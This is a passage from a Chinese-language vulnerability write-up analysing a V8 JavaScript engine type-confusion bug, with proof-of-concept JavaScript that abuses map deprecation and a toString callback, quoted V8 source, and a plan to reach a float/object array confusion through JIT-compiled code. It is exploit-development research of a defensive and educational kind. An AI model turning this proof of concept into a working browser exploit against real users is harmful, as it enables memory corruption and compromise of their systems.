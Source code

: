 ```javascript
var s2 = document.createElement('p').style;                     
var v2 = [1.1, 1.2, 1.3];                                       
v2.toString =  () => {      
	// 5. 搜索到 2 中创建好的 map
	s2.confuzion = double_value;
	// 6. deprecate 属性的类型从 SMI 泛化到了 HeapNumber，创建新 map 替代 
	// 1. 2. 3. 创建的 map，并且把旧 map 被标记为 deprecate                                  
	s1.deprecate = double_value;                                  
};                                                              

// 4.搜索到 1. 中创建好的 map
s2.deprecate = smi_value;     
// 7. 发现 s2 目前的 map 已经被标记为 deprecated，先更新到 6. 中创建的新 map，然后又以 
// confuzion 属性名，搜索新 map，还是搜索到 6. 中创建的新 map，也是 s1 目前在用的 map
s2.confuzion = v2;                                              

alert(`0x${cvs.ftou(s2.confuzion).toString(16)}`);              
```

再来分析一下目前都可以控制哪些东西，s1.confuzion 的类型是完全可控的，s2.confuzion 我认为是不太可控的，为了触发漏洞 s2.confuzion 一定要是个包含 toString 函数的对象，这意味着它一定要是 HeapObject 类型的。

---
⚠️ 提示：这块只是我自己的理解，不一定对，也许有什么我不知道的特性让非 HeapObject 类型的值也可以有自定义的 toString 回调。

---

之前分析过 CVE-2021-30551 的思路是，让 s2.confuzion 是一个浮点数，s1.confuzion 是一个数组，就可以把写入 s2.confuzion 的浮点数，当作数组的地址使用。但这个漏洞 s2.confuzion 一定要是 HeapObject，我就想到是不是可以选择浮点数数组，然后让 s1.confuzion 是对象数组。回顾一下上面的 WriteField 函数，对象的写入由 FastPropertyAtPut 函数完成，就是把对象的指针存储到属性中，这个赋值操作并不能直接触发类型混淆，需要结合上 JIT 编译生成的代码才行。

```cpp
void JSObject::FastPropertyAtPut(FieldIndex index, Object value,
                                 WriteBarrierMode mode) {
  if (index.is_inobject()) {
    RawFastInobjectPropertyAtPut(index, value, mode);
  } else {
    DCHECK_EQ(UPDATE_WRITE_BARRIER, mode);
    property_array().set(index.outobject_array_index(), value);
  }
}

void JSObject::RawFastInobjectPropertyAtPut(FieldIndex index, Object value,
                                            WriteBarrierMode mode) {
  DCHECK(index.is_inobject());
  int offset = index.offset();
  RELAXED_WRITE_FIELD(*this, offset, value);
  CONDITIONAL_WRITE_BARRIER(*this, offset, value, mode);
}
```

基本思路是定义一个读取参数对象的 confusion[0] 的函数，然后用 s1 触发这个函数的 JIT 编译，之后以 s2 为参数调用 JIT 编译好的函数，如果没有触发 deoptimize 的话，s2.confusion 就会被当作对象数组使用，而实际上它是一个浮点数数组，数组里存储的内容都是可控的。
